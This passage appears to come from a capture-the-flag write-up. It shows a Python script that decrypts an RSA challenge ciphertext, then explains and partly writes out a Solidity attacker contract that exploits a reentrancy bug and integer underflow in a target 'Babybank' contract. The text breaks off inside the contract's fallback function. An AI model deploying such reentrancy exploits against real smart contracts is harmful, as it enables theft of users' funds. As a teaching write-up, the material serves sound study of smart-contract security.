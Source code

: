 Also a script from Li Ruixin here.

```
from Crypto.Util.number import getPrime
import math
import gmpy2
from Crypto.Util.number import long_to_bytes
n = 10588750243470683238253385410274703579658358849388292003988652883382013203466393057371661939626562904071765474423122767301289214711332944602077015274586262780328721640431549232327069314664449442016399
e = 65537
c = 2093679529573280822046118784413700108333955356566436078249435745673869110116883084133929754933311199736732547505892559695135678800481469602859356500165748152612256935469597540381698322759986797887837
phi=(2151055860*2319991936*2341310832*2391906756*2448497716*2493514392*2586983802*2758321512*2784469416*2816940108*2865965428*3092165242*3218701458*3438516510*3526137360*3663803700*3673658160*3789550042*3866428116*3919632262*4147385898)
print(phi)

d=gmpy2.invert(e,phi)
x = pow(c,d,n)
print(long_to_bytes(x))

```



## The DAO ReEntry

From the name, you can easily know that is is an traditional ReEntry attack in ETH and smart contract。

Then read the contract, there are three functions, the `payforflag` is the function you need to call to get the flag. For the`profit` function, you set your balance to 1.  For the `widthdraw` function, it is where the vul is, if send amount before minus balance, which can lead to ReEntry Attack.

Looking at `payforflag` function, what we need to do is let the balance>100000, so together with reentry, we can utilize negative overflow to let the balance negative overflow to `0-1`, which is a very big number in unsigned int.

So now we get the attack contract.

```
pragma solidity ^0.4.24;

interface BabybankInterface {
    function withdraw(uint256 amount) external;
    function profit() external;
    function guess(uint256 number) external;
    function transfer(address to, uint256 amount) external;
    function payforflag(string md5ofteamtoken, string b64email) external;
}

contract attacker {

    BabybankInterface constant private target = BabybankInterface(0x4c6bF58813A6dc360653cA7C385a1A4233998eBe);

    uint private flag = 0;

    function exploit() public payable {
        target.profit(); //let the balance to 1 to start withdraw
        target.withdraw(1); //first withdraw
        target.payforflag("email", "666");
    }

    function() public payable {
```